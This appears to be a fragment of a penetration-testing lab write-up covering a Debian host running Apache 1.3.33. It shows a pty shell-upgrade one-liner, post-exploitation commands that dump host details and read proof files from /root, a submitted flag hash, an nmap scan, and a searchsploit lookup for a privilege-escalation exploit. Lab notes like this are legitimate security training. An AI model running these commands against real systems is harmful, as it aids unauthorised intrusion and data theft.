 Upgrade the shell for something more stable
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


## Actions On Objectives

For non-privileged access proof dump
```sh
echo " "; echo "local:"; find / -type f -name "local.txt" 2>/dev/null | xargs cat 2>/dev/null;

```

Dump all local, user, network, and proof info.
```sh
echo " "; echo "uname -a:"; uname -a; \
echo " "; echo "hostname:"; hostname; \
echo " "; echo "id"; id; \
echo " "; echo "ifconfig:"; /sbin/ifconfig -a; \
echo " "; echo "proof:"; cat /root/proof.txt 2>/dev/null; cat /Desktop/proof.txt 2>/dev/null; echo " "
```
![[Pasted image 20231110014243.png]]Submit hash(s)
`780234ccfae35670fe766a167822f528`

# Port 80 http - Not Vuln

```sh
nmap --script "http-*" -p 80 -T5 192.168.181.42
```
	80/tcp    open  http        Apache httpd 1.3.33 ((Debian GNU/Linux))
	|_http-server-header: Apache/1.3.33 (Debian GNU/Linux)
	|_http-title: Ph33r
	| http-methods: 
	|   Supported Methods: GET HEAD OPTIONS TRACE
	|_  Potentially risky methods: TRACE

Kernel Exploits
```sh
searchsploit 1.3.33
```
	Exploit Title    |  Path
	Apache 1.3.34/1.3.33 (Ubuntu / Debian) - CGI TTY Privilege Escalation    | linux/local/3384.c
	Shellcodes: No Results

Target URL:
```
http://192.168.181.42
```
